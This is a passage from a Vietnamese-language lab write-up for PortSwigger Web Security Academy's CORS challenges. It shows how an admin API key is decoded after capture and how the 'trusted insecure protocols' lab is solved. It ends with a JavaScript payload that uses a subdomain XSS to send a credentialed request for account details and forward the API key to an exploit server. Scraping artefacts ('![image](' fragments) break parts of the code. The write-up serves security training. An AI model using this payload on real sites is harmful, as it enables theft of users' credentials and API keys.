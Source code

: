 ![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_truenull_accesslog.png?raw=true)


Chúng ta nhận thấy được request là log?key thì cop và chuyển sang  Decoder của Burp suite để decode như sau :
![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_truenull_decode.png?raw=true)


![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_truenull_submitapikey.png?raw=true)

  
### Lab: CORS vulnerability with trusted insecure protocols

Trang web này có cấu hình CORS không an toàn ở chỗ nó tin cậy tất cả các miền phụ bất kể giao thức.

Hãy tạo một số JavaScript sử dụng CORS để truy xuất khóa API của quản trị viên và tải mã lên máy chủ khai thác của bạn. Lab được giải quyết khi bạn gửi thành công khóa API của quản trị viên.

Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau: wiener: peter


Trong bài này chúng ta có 1 trang web bán hàng như sau : 

Đăng nhập và bắt lại request có chưa APIKey. Thêm Origin Header bất kỳ để check xem có sử dụng CORS hay không.

![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_protocol_checkscors.png?raw=true)

Như kết quả trả về ta thấy *Access-Control-Allow-Origin* và *Access-Control-Allow-Credentials* điều đó cho thấy có áp dụng CORS.

Vì bài này chú tâm đến các giao thức nên mình sẽ thử những chức năng liên quan đến API, điển hình như trong web sẽ có chức năng Check Stock, chúng ta bắt request của chức năng này xem và phân tích.
![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_protocol_checkstock.png?raw=true)

![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_protocol_checkstock_request.png?raw=true)

Như đã thấy thì chức năng này sẽ lấy data từ 1 tên miền phụ khác là : *http://stock.![image](https://acfb1faa1ec0c6ec81f22d5200ae00ad.web-security-academy.net* chúng ta có thể lợi dụng tên miền này để leak APIKey như những bài trước, để kiểm tra giả thiết thì thử thay thế Origin Header ở phần account xem có được phép hay không

![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_protocol_checkdomain.png?raw=true)


Sau đó dựa theo form khai thác dựa trên tên miền phụ được phép truy cập dữ liệu như sau ;
```
<script>
   document.location="http://stock.![image](https://acfb1faa1ec0c6ec81f22d5200ae00ad.web-security-academy.net/?productId=4
   <script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','![image](https://![image](https://acfb1faa1ec0c6ec81f22d5200ae00ad.
   web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() 
   {location='![image](https://exploit-ac131f241ecbc63281092d6d012d001e.web-security-academy.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
